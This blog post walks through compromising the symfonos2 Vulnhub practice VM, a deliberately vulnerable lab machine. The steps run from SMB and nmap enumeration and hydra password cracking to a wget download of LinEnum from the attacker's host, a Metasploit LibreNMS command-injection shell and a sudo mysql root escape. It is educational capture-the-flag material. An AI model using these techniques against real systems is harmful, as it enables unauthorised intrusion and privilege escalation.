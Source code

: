 ```yaml
---
layout: post
title: "symfonos2 - Vulnhub Boot2Root"
date: 2020-06-28
ctf: true
excerpt: "Walkthrough for the symfonos2 VM"
tags: [vulnhub, symfonos, symfonos2, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the second box in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I was presented with the IP address of the host.

![symfonos2 ip address](/assets/img/symfonos2-1.png)

This can also be discovered running `netdiscover -i eth0` as shown below:

![symfonos2 netdiscover](/assets/img/symfonos2-2.png)

Now that we have the IP address of the host, we can run **nmap** to find what services are running on the machine.

![symfonos2 nmap](/assets/img/symfonos2-3.png)

As you can see, FTP, SSH, HTTP, and SMB are running on this target host. It also appears that anonymous SMB authentication is allowed. We will first enumerate the shares with **nmap's smb-enum-shares** script as shown below.

![symfonos2 nmap smb-enum-shares](/assets/img/symfonos2-4.png)

It appears that the anonymous user has access to a few shares, let's connect to the anonymous share with `smbclient \\\\192.168.68.138\\anonymous\\ -U anonymous -N`. We are able to successfully connect and there is a backups folder present with a **log.txt** file. Let's retrieve that file with **get**.

![symfonos2 smbclient pilfering](/assets/img/symfonos2-5.png)

This file contains some interesting information. It appears that the **/etc/shadow** file was backed up to **/var/backups/shadow.bak** and that anonymous FTP access is allowed.

![symfonos2 log.txt](/assets/img/symfonos2-6.png)
![symfonos2 log.txt](/assets/img/symfonos2-7.png)

Let's try to connect to the ftp servers as both anonymous and ftp. While these work, it appears that it is looking for a specific email address as a password which we have yet to uncover. Based on research, it appears that this occurs when anonymous FTP isn't configured properly.

![symfonos2 ftp attempt](/assets/img/symfonos2-8.png)

Reviewing the log file a bit further we come across a user account **aeolus**.

![symfonos2 log.txt](/assets/img/symfonos2-9.png)

At this point, I decided to run hydra to see if it was able to recover the password for this user. I elected to attack ftp as we know the aeolus user is running this service so you should be able to login with his credentials once uncovered.

After several minutes, we uncovered the password for **aeolus** which is **sergioteamo**.

![symfonos2 aeolus password](/assets/img/symfonos2-10.png)

We were able to successfully authenticate with these credentials via **ssh**.

![symfonos2 aeolus password](/assets/img/symfonos2-11.png)

Let's do some enumeration. In order to enumerate, let's server up an http server and use **wget** to download Linenum.sh to our victim's computer. The server can be spun up by running `python -m SimpleHTTPServer` and then can be retrieved on the victim's pc with `wget http://192.168.68.135:8000/Linenum.sh`

![symfonos2 python http server](/assets/img/symfonos2-12.png)
![symfonos2 wget](/assets/img/symfonos2-13.png)

Next, we have to make the script executable, which can be done with `chmod 777 LinEnum.sh`

![symfonos2 wget](/assets/img/symfonos2-14.png)

Next, we run LinEnum with the thorough option and with the apache keyword option (as we know this was running from the nmap scan) with `./LinEnum.sh -t -k apache`.

After review, we see that Apache's configuration file is in it's default location of **/etc/apache2/apache2.conf**

![symfonos2 wget](/assets/img/symfonos2-15.png)

Reviewing the Apache configuration file didn't show anything useful, but under the **sites-enabled** folder is another configuration file **librenms.conf**. This appears to be running on localhost only over port 8080 as shown below.

![symfonos2 librenms](/assets/img/symfonos2-16.png)

I wasn't sure what LibreNMS was as I hadn't heard of it, but let's search MetaSploit with ``searchsploit librenms` and see if anything shows up that can be used.

![symfonos2 searchsploit](/assets/img/symfonos2-17.png)

It appears that there are several potential exploits available. However, it appears that LibreNMS is only accessible from localhost. Let's do local SSH port forwarding with `ssh -L 8080:localhost:8080 aeolus@192.168.68.138`. This is one of several tricks related to port forwarding I learned from the SANS GPEN course recently.

![symfonos2 ssh local port forwarding](/assets/img/symfonos2-18.png)

Now we should be able to view this site from a web browser at http://127.0.0.1:8080/

![symfonos2 librenms login](/assets/img/symfonos2-19.png)

Let's try logging in with **aeolus** credentials we uncovered earlier.

![symfonos2 librenms login](/assets/img/symfonos2-20.png)

Success, we were able to login. Let's see if we can exploit this further with Metasploit. Launch Metasploit with the `msfconsole` command and use the `exploit/linux/http/librenms_addhost_cmd_inject` exploit with the options shown below:

![symfonos2 msfconsole librenms exploit](/assets/img/symfonos2-21.png)

Please note, the **LHOST** is the IP address of your attacker computer. Once reviewed with `show options` type in `run` and press enter.

You should now have a new shell to the victim host.

![symfonos2 msfconsole shell](/assets/img/symfonos2-22.png)

Run `python -c 'import pty;pty.spawn("/bin/bash")'` to get an interactive shell. You will see we're logged in as the **cronos** user as well.

![symfonos2 interactive shell](/assets/img/symfonos2-23.png)

Let's run `sudo -l` and see if **cronos** has access to run any programs as root.

![symfonos2 sudo -l](/assets/img/symfonos2-24.png)

Awesome, you can run mysql as root without a password, let's take a look at [GTFOBins]("https://gtfobins.github.io/") and see if there's an exploit that can be used to escalate privileges.

There is a one liner that can be ran `sudo mysql -e '\! /bin/sh'` that should result in root access.

![symfonos2 GTFOBins](/assets/img/symfonos2-25.png)

Let's run it and see what happens.

![symfonos2 root shell](/assets/img/symfonos2-26.png)

It worked! Now you just have to navigate to the root home directory and `cat proof.txt`

![symfonos2 root proof.txt](/assets/img/symfonos2-27.png)
